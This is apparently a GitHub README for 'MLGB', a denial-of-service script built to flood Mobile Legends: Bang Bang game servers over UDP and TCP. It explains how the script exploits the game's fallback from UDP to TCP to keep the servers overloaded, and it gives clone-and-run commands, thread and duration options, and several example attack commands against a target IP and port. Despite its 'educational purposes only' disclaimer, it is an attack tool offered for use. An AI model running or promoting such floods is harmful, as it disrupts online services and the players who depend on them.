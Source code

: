 <p align="center"><img src="https://i.imgur.com/6WaJAdA.png" width="187px" height="125px"></p>
<h1 align="center">MLGB (Mobile Legends: Gang Bang)</h1>

<h5 align="center">DDoS/DoS attack script for MLBB (Mobile Legends: Bang Bang) game servers.</h5>
<em><h6 align="center">This script is provided for educational purposes only. Unauthorized use against servers without explicit permission is illegal and unethical. The authors of this script are not responsible for any misuse.</h6></em>

<p align="center"><img src="https://i.imgur.com/anFgJFI.png"></p>

## Overview
**MLGB** is a Denial of Service (DoS) attack script specifically developed to disrupt the game servers of MLBB. It leverages both UDP and TCP flooding techniques to overwhelm the target server, potentially causing lag, disconnections, or even crashes.

## Why TCP?
While MLBB primarily uses UDP for communication, the game automatically switches to TCP if the UDP connection becomes unstable or fails. This script is designed to exploit that by attacking both protocols, ensuring the server remains overloaded even after protocol switching.

## Get Started
```shell script
git clone https://github.com/v9lu/mlgb.git
cd mlgb
python3 mlgb.py --target <ip:port>
```

## Options
```shell script
--help (-h) # Show help message
--target (-t) # IP:port of the target server
--udp_thread_count (-utc) # Number of UDP attack threads (default: 25)
--tcp_thread_count (-ttc) # Number of TCP attack threads (default: 25)
--udp_duration (-ud) # UDP attack duration in seconds (default: 300)
--tcp_duration (-td) # TCP attack duration in seconds (default: 300)
```

## Example Usage
1. **Basic Attack**: 25 threads for UDP and TCP attacks, 5 minutes duration on a server with IP `192.168.1.100` and port `5000`:
```shell script
python3 mlgb.py -t 192.168.1.100:5000
```
2. **Increased Threads**: 30 threads for UDP attack and 50 threads for TCP attack on the same server:
```shell script
python3 mlgb.py -t 192.168.1.100:5000 -utc 30 -ttc 50
```
3. **Short Attack**: 25 threads for UDP and TCP attacks, each lasting 1 minute:
```shell script
python3 mlgb.py -t 192.168.1.100:5000 -ud 60 -td 60
```
